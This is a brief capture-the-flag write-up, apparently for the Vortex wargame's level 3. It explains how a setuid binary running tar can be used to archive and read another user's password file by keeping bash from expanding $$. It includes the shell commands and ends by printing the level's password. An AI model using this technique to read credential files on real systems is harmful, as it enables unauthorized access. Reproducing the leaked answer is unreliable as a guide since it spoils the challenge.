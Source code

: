 The executable launches tar with ownership from the vortex3 username.

The trisk is that $$ is interpreted as the pid by bash when trying to ls the resulting archive file.

But in the c execution $$ is passed as a string and thus not reinterpreted by bash.

To force bash to not interprete the $$ during the ls, do something like this :

```
cd /
vortex/vortex3 etc/vortex_pass/vortex3
ls '/tmp/ownership.$$.tar'
tar -xf '/tmp/ownership.$$.tar' /tmp/xxxx/
```

level3 pass :

64ncXTvx#
